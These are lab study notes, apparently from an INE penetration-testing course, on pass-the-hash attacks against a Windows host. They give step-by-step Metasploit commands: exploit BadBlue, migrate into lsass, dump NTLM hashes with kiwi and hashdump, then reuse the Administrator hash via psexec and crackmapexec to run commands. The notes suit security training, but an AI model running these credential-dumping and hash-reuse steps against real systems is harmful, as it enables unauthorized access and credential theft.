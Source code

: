 #### Pass- The-Hash
Pass-the-hash is an explitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.
- We can use multiple tools to facilitate a Pass-the-hash attack
- - Metasploit PsExec module
- - Crackmapexec
- This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation
#### Exploitation
- nmap -sV demo.ine.local
- service postgresql start
- msfconsole
- search badblue
- use 1
- set everyting requires
- this give meterpreter shell
- pgrep lsass [this give us process id ]
- migrate 780 [ this process id (780) is found from previous command ]
- getuid 
- load kiwi [ load the meterpreter built-in kiwi module ]
- lsa_dump_sam [ this will show all the hashes ]
- copy the administrator NTLM hash 
- hashdump [ this will dump all the hashes,copy all the hashes ]
- background the meterpreter session
- search psexec
- use exploit/windows/smb/psexec
- set everything requires
- set SMBUser Administrator
- set SMBPass nt_hash_value:ntlm_hash_value
- set target Native\ upload
- run
- this will give us meterpreter sessions
- 
#### crackmapexec
- crackmapexec smb 10.2.28.132 -u Administrator -H "NTLM hash value" [ this will use for authentication ]
- crackmapexec smb 10.2.28.132 -u Administrator -H "NTLM hash value" -x "whoami" [ in x parameter value we can execute any command as we want]
